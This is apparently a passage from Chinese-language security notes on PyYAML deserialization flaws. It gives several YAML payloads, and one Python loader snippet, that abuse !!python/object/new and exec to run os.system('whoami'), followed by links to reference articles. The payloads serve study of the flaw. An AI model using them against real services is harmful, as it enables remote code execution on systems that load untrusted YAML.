 ```yaml
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"
```

或者这样

```yaml
!!python/object/new:type
  args: ["exp", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('whoami')"
```

还有组合拳

```php
import yaml

payload = """
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "__import__('os').system('whoami')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
"""
yaml.load(payload)
```

参考：

[PyYAML反序列化漏洞 - DAMOXILAI - 博客园 (cnblogs.com)](https://www.cnblogs.com/damoxilai/p/16707055.html)

[浅谈PyYAML反序列化漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7923#toc-9)

[PyYAML反序列化防御和ByPass - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/256243.html)

[yaml-deserialization.pdf (packetstormsecurity.net)](https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf)